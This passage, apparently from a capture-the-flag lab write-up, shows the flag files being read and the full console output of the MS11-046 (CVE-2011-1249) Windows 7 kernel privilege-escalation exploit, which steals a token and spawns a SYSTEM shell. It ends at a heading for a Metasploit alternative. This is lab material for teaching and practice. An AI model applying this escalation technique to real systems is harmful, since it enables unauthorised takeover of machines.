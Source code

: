 
    c:\Users\babis\Desktop>type user.txt.txt
    9ecdd6a3...

    c:\Users\Administrator\Desktop>type root.txt.txt
    e621a0b5...



Interestingly, when I exit the system shell, all of the things the
exploit tried to print come out to the screen:



    c:\Users\Administrator\Desktop>exit
    [*] MS11-046 (CVE-2011-1249) x86 exploit
       [*] by Tomislav Paskalev
    [*] Identifying OS
       [+] 32-bit
       [+] Windows 7
    [*] Locating required OS components
       [+] ntkrnlpa.exe
          [*] Address:      0x82805000
          [*] Offset:       0x007c0000
          [+] HalDispatchTable
             [*] Offset:    0x008e93b8
       [+] NtQueryIntervalProfile
          [*] Address:      0x77225510
       [+] ZwDeviceIoControlFile
          [*] Address:      0x77224ca0
    [*] Setting up exploitation prerequisite
       [*] Initialising Winsock DLL
          [+] Done
          [*] Creating socket
             [+] Done
             [*] Connecting to closed port
                [+] Done
    [*] Creating token stealing shellcode
       [*] Shellcode assembled
       [*] Allocating memory
          [+] Address:      0x02070000
          [*] Shellcode copied
    [*] Exploiting vulnerability
       [*] Sending AFD socket connect request
          [+] Done
          [*] Elevating privileges to SYSTEM
             [+] Done
             [*] Spawning shell

    [*] Exiting SYSTEM shell



## Privesc Alternative: With Metasploit

### Enumeration
